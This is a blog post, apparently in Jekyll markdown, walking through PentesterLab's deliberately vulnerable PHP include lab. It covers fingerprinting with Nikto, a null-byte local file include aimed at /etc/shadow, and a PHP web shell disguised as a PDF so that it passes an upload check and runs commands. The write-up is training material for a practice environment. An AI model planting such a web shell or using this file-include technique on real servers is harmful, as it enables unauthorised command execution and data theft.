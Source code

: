 ```yaml
---
layout: post
title: "PentesterLab Bootcamp - Local File Include"
date: 2017-01-18
description: "Walk-through guide to PentesterLab's bootcamp."
number: "0x0a"
---
```

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

This is part 5.2 of my write-up of PentesterLab's [Bootcamp](https://pentesterlab.com/bootcamp) course. If you see any errors or want to suggest I do something different, please [contact me](https://www.maxmunday.com/contact/) to let me know.

Write-up parts [1](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting), [2](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http), [3](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns), [4](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls), [5.1](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection), [5.2](https://www.maxmunday.com/blog/2017/01/18/pentesterlab-bootcamp-part-5.2-local-file-include).


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

<pre>
                   * * * [ DISCLAIMER ] * * *
/*
 * All information in this write-up is, to the best of my knowledge,  
 * truthful and accurate. However, I am only new to this, and I am   
 * learning as I go, so it is entirely possible something contained  
 * within this write-up is incorrect in some way. Never execute any  
 * command, without knowing for sure what it is you are doing. Look  
 * at the man pages of all commands if you do not understand them.  
 *
 * I take no responsibility if you decide to use this information   
 * to commit illegal acts. If you attempt to use these techniques  
 * against devices or networks you do not either own, or have    
 * permission to attack, you could end up in prison.  
 *
 */  
</pre>
 
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Step 5 ]
 
This is the second part of step 5. This step has us run through two of PentesterLab's exercises: [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell) (write-up available [here](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection)) and [PHP Include And Post Exploitation](https://pentesterlab.com/exercises/php_include_and_post_exploitation). Download the ISOs and run them in a VM, then access them in a browser using the IP address. [Here](https://www.youtube.com/watch?v=kdYuJDWxOHc) is a video if you need help setting it up.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ PHP Include and Post Exploitation ]

PentesterLab provide an informative [written course](https://pentesterlab.com/exercises/php_include_and_post_exploitation/course) to work through for this exercise. I will not go through everything, I will just do a write-up of the solution as I see it. Run through their course to get the complete learning experience. 

\-\-[ Fingerprinting ]

This intial step is neccesary to gather information about the technologies in use within the web application. This is useful in determining what vulnerabilities may exist or where we can search for them. 

First we will run [Nikto](http://cirt.net/nikto2) on the webserver to check for known vulnerabilities and configuration issues.

![](/pictures/php_include_1.png){:height="288px" width="607px"}

It shows the following issues:

\* the version of Apache and PHP;  
\* a potential PHP include issue;  
\* a false positive (OSVDB-3126);  
\* OSVDB-12184 when PHP is configured with `exposed_php` turned on;  
\* some directories than can indexed;  
\* a login page.

\-\-[ Detection of PHP includes ]

To test for the PHP include issue we will try to generate some file inclusion error messages to get a better understanding of what we're dealing with.

We test with `vulnerable/index.php?page=randomvalue` and the following error is generated

![](/pictures/php_include_2.png){:height="61px" width="507px"}

We can see that the `.php` suffix has been added by the PHP code. 

Next we will try to access `/etc/shadow` using a Null Byte (`%00`) to escape the `.php` suffix

![](/pictures/php_include_3.png){:height="53px" width="588px"}

The `Permission denied` error message shows us that our Null Byte has worked.

We can test for remote file include by attempting to access `http://vulnerable/index.php?page=http://www.google.com/?`. If this is successful the Google page will open within the `vulnerable` page.

![](/pictures/php_include_4.png){:height="288px" width="640px"} 

From this error we can see that this system is not vulnerable to remote file inclusion and so we can assume there is a local file include vulnerablity. 

\-\-[ Exploitation ] 

To exploit a local file include we need to find a way to get the PHP code in a file on the system and get this code to be included. 

There can be many ways to do this, but we will attempt to upload our PHP code through the "Call for Papers" upload functionality on the application.

The application only accepts uploads in PDF format so we will create a PHP file that will appear to be a PDF to bypass the check.

To do this we create a text file with the following code

{% highlight shell %}
$ nano lfi
{% endhighlight %}

{% highlight php %}
%PDF-1.4
<?php
  system($_GET["cmd"]);
?>
{% endhighlight %}

{% highlight shell %}
$ mv lfi lfi.pdf
{% endhighlight %}

The `%PDF-1.4` is the identifier that is checked by the PHP function `mime_content_type` in order to determine its type as a PDF. 

We can test to see if this will be interpreted as a PDF by the content-type checker by using the following code

{% highlight php %}
<?php
echo mime_content_type('lfi.pdf') . "\n";
?>
{% endhighlight %}

And when we run it, we get 

![](/pictures/php_include_5.png){:height="38px" width="313px"}

Success! We have PHP code contained within what appears to be a PDF file.

We can now upload it via the "Call for Papers" section in the application. We need to add a username:password and submit our PDF. Once it is submitted, log back in and access the file location.

We can now access `vulnerable/index.php?page=uploads/lfi.pdf%00&cmd= ` to execute commands

![](/pictures/php_include_6.png){:height="228px" width="589px"}

NB: The course continues through shells, reverse shells and TCP redirection which I will go through in a different post.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

/*\*\* [Part 1 - Linux and Scripting](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting) \*\*\*/

/*\*\* [Part 2 - HTTP](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http) \*\*\*/

/*\*\* [Part 3 - PHP and DNS](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns) \*\*\*/

/*\*\* [Part 4 - SSL/TLS](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls) \*\*\*/

/*\*\* [Part 5.1 - SQL Injection](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection) \*\*\*/

/*\*\* Part 6- More SQL Injection COMING SOON \*\*\*/

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
